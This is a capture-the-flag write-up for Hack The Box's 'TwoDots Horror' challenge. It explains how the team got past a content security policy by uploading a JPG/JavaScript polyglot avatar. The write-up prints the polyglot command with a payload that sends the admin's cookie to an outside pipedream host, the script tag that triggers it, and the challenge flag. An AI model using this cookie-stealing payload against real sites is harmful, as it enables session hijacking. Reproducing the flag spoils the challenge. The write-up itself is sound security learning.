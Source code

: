 # Two_Dots_Horror

# Introduction

We will be resolving the "TwoDots Horror" challenge from Hack The Box  by leveraging the OWASP top 10 techniques.

# Problem summary

Blind XSS with Image File Upload to hijack Admin’s Session.

# Problem Analysis Stage
![image](https://github.com/Jaswanthmandadi/Two-Dots-Horror/assets/162234831/91be331f-d69c-45ba-a8d1-c2ce66b181b7)



We saw the page mentioned above when we connected to the given URL(the virtual box ip:port provided). We entered a username and password on this page in order to log in or register.

First, we downloaded and looked over the supplied file. We examined the router's declared login and registration operations, but were unable to pinpoint them as potential SQL injection targets. As a result, we thoroughly examined other sections and concentrated on the crucial portions of the source code.

![image](https://github.com/Jaswanthmandadi/Two-Dots-Horror/assets/162234831/3c350107-63c6-4066-a7a0-8fe3e4c104ef)



To begin , we notised there is a part where CSP (Content Security Policy) is applied to the headers as middlewar.The following is how the CSP is set up:

![image](https://github.com/Jaswanthmandadi/Two-Dots-Horror/assets/162234831/e645bc62-c000-4374-a236-947fb48b225d)

Here, the part that seems vulnerable is the default-src: self setting in the CSP. This allows scripts originating from the same website to be executed. Generally, this could include uploaded files.
In the router, the /review path seems to be accessible only to localhost, indicating it's a page only the administrator can access.
When a POST request is made to the /api/submit path, the bot.purgeData(db) part triggers an action where the bot (virtual admin) goes to the /review path to check the post just submitted by the user.
Additionally, /api/avatar/:username fetches the user's profile picture.
Finally, /api/upload allows users to upload their profile pictures. The libraries used for upload restriction policies are image-size and is-jpg. (Analyzing these libraries took most of our  time during problem-solving.)

# Target Identification
Upon analyzing the provided files, it's apparent that the objective is to obtain the session through Blind XSS. However, the template engine used is Nunjucks, and the page the bot will check is review.html. (Below shows how the content we enter in review.html is structured with template tags.)
 ![image](https://github.com/Jaswanthmandadi/Two-Dots-Horror/assets/162234831/d074790a-b9de-47bf-b9d9-2f6021d17f22)


As you can seen in the review.html  it's written as {{ post.content|safe }}. We refered to the Nunjucks documentation (https://mozilla.github.io/nunjucks/templating.html#safe), and noticed that when the safe option is used, HTML escaping is not performed. Therefore, if tags are included here, they will be recognized as HTML tags. In this situation, executing <script>document.location.href='server_address';</script> would be blocked by two conditions.
Firstly, it's filtered in the conditional statement in the /api/submit router.

if(twoDots == null || twoDots.length != 2){
        return res.status(403).send(response('Your story must contain two sentences! We call it TwoDots Horror!'));
}
The constraint is that there must be exactly two dots. In that case, would the payload below work?

<script>eval(atob("something_base64_encoded"))</script>

It doesn't work. The reason is the second reason.
Secondly, because the CSP (Content Security Policy) setting is default-src: self, the eval function does not work.
Therefore, in this situation, script execution is only possible under the following conditions.
<script src="/api/avatar/test"></script>

Because the only file download feature on this website is the user profile. And by using this, if we pass an XSS payload as a user profile picture, the problem can be solved.
Firstly, to upload an XSS payload as an image file, you need to analyze the image file upload feature and the libraries that validate the integrity of image files used by the problem web service.
Library Analysis
We analyzed two libraries in total: image-size and is-jpg. Both libraries are Node.js libraries.
The first image-size library checks the size of the image file buffer. It determines the file extension or file signature of the image file, calculates the size of the buffer corresponding to the file signature. We refered to this link for  image size sourcecode https://github.com/image-size/image-size/blob/a38b56fe7303898ce6811adb213e518a57593d10/lib/types/jpg.ts#L104. The second is-jpg library performs much simpler operation than the above library. Basically, it checks the file signature. We refered to this link for  is-jpg source code: https://github.com/sindresorhus/is-jpg/tree/v2.0.0
Payload Composition
At this point we come up with our  XSS payload. https://github.com/s-3ntinel/imgjs_polygloter

	python3 img_polygloter.py jpg --height 120 --width 120 --payload "window.location='https://2bc5e8c2676690d6ab45027ee5a61217.m.pipedream.net/?cookie='+document.cookie" --output stealsession.jpg

The provided payload is the content inserted into a JPG image file. It fetches the cookie value using webhook.site. After composing the payload in this manner, the integrity of the binary data of the image file is checked against the image-size module and the is-jpg module to ensure there are no violations, and then it undergoes modifications to create the final file.Below is the integrity_check.js file that we used.


var sizeOf = require('image-size');
var isJpg = require('is-jpg');
_buffer = Buffer.from([0xFF, 0xD8, 0xFF, 0xE0, ... truncated ... ]);
var buffer = _buffer.slice(4);
var index = buffer.readUInt16BE(0);
var i = buffer.readUInt16BE(0);
console.log('index : ' + index);
console.log(buffer[index + 1].toString(16), buffer[index + 2].toString(16), buffer[index + 3].toString(16));
console.log((index > buffer.length) == false);
console.log((buffer[index] !== 0xFF) == false);
console.log(buffer[index + 1] === 0xC0);
buffer.readUInt16BE(index + 5);
buffer.readUInt16BE(index + 5 + 2);
var s = sizeOf(_buffer);
console.log('size of buffer : ' + s);
var jpg = isJpg(_buffer);
console.log(jpg);

			
index : 12074 
c0 ff fe
true
true
true
size of buffer :  [object Object] 
true



When we execute the above code and get all true values, it indicates that there are no issues with the image file. However, attempting to open the file as an image may result in corruption. Nevertheless, according to the assessments of the two libraries, the file deemed sufficient to be considered a normal image file. Now that we completed the payload, we can proceed to solving the problem.

# Problem Solution
1.	First, after registering and logging in,  the screen below appears .

![image](https://github.com/Jaswanthmandadi/Two-Dots-Horror/assets/162234831/c0710666-24cf-49a6-9fa2-e1c2fee67f3a)


2.	After clicking  the "Profile" button on the left, the screen below  appear.



![image](https://github.com/Jaswanthmandadi/Two-Dots-Horror/assets/162234831/1fe0c9e2-3b07-487f-87f6-db669629aaae)



3.	Upload the image file.

![image](https://github.com/Jaswanthmandadi/Two-Dots-Horror/assets/162234831/a01ee356-9e27-4daf-863e-e94816e09ff6)

Upon uploading, we  noticed that the image appears corrupted with a broken image icon as shown above. However, the upload has been successful.

4. After that we tried to write an HTML tag payload in the feed menu. The payload is formatted as follows:

![image](https://github.com/Jaswanthmandadi/Two-Dots-Horror/assets/162234831/93812453-e225-43c7-8e5b-69b0ed4cd208)


<script charset="ISO-8859-1" src="/api/avatar/test?t=1234"></script>..



5. Now, we opened pipedream to simply confirm if the session has actually been hijacked.

![image](https://github.com/Jaswanthmandadi/Two-Dots-Horror/assets/162234831/930484a3-40a3-47c7-86dd-f40c5c16bafb)







Flag: 
 HTB{Unit3d_d0ts_0f_p0lygl0t}

# Conclusion and Outcomes

By doing this, the flag has been successfully captured. Through this problem, we learned that CSP bypass is possible through image file uploads and that XSS vulnerabilities can occur in this challenge. We performed white box testing on the source code to find vulnerabilities and studied libraries image-size and is-jpg libraries. We learnt the usage of polygloter for crafting the payload in jpg format. We learnt usage of pipedream and webhook for capturing stolen admin session cookies.

